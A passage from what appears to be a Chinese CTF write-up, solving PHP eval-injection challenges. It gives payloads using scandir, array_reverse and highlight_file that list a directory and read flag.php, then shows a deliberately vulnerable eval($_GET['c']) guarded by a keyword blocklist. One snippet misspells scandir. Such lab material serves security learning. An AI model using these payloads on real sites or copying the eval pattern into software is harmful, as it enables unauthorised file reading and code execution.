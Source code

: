 ```cobol
print_r(scnandir(dirname(__FILE__)));
 
1.执行 __FILE__ 获取当前文件的完整路径 例如 /var/www/html/1.php
 
2.执行dirname 获取目录名 即 /var/www/html
 
3.将目录下的内容转为数组 
 
4.通过print_r数组输出
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/fb898f02d99624e4203c3476d9469ac2.png" alt="" style="max-height:137px; box-sizing:content-box;" />


这里能发现当前目录下存在 flag.php 和 index.php

通过这个我们可以读取 目录文件

然后我们需要选中文件

```cobol
print_r(next(array_reverse(scandir(dirname((__FILE__))))));
 
 
array_reverse()  倒序排列
 
next() 指向数组下一元素
 
其实可以直接选择
 
?c=print_r(scandir(dirname((__FILE__)))[2]);
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/fb9a5d0306603da18981b1dc91f3b0eb.png" alt="" style="max-height:163px; box-sizing:content-box;" />


最后通过高亮返回代码即可

```cobol
?c=highlight_file(scandir(dirname((__FILE__)))[2]);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c352c73cd2c46874231bdda1f18d03b3.png" alt="" style="max-height:366px; box-sizing:content-box;" />


## web32 过滤 ；`` '' .

这道题把我们的 ) 也过滤了 所以刚刚学会的东西 没办法了

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
